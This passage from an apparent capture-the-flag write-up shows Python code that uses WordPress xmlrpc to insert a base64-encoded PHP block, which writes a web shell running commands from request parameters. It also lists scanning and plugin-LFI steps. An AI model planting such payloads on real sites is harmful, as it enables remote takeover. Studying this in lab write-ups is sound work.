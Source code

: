 Now modify the post again:

```bash
mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3NoZWxsMi5waHAnLCBiYXNlNjRfZGVjb2RlKCdQRDl3YUhBZ2MzbHpkR1Z0S0NSZlVrVlJWVVZUVkZzblkyMWtKMTBwT3o4K0NnPT0nKSk7IGVjaG8gKCJzdWNjZXNzIik7ID8+Cg==","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
client.call(wp.posts.EditPost(mod_post.id, mod_post))

p = client.call(wp.posts.GetPosts())[0]
client.call(wp.posts.NewPost(p))
p.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3NoZWxsMi5waHAnLCBiYXNlNjRfZGVjb2RlKCdQRDl3YUhBZ2MzbHpkR1Z0S0NSZlVrVlJWVVZUVkZzblkyMWtKMTBwT3o4K0NnPT0nKSk7IGVjaG8gKCJzdWNjZXNzIik7ID8+Cg==","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

client.call(wp.posts.NewPost(p))
```

Does not work… Looking at burp we get a 500 internal server error.

- wpscan to find vulnerable plugins and backup files
- gobuster to find wp-config.php.bak
- plugin exploit LFI
- exploiting xmlrpc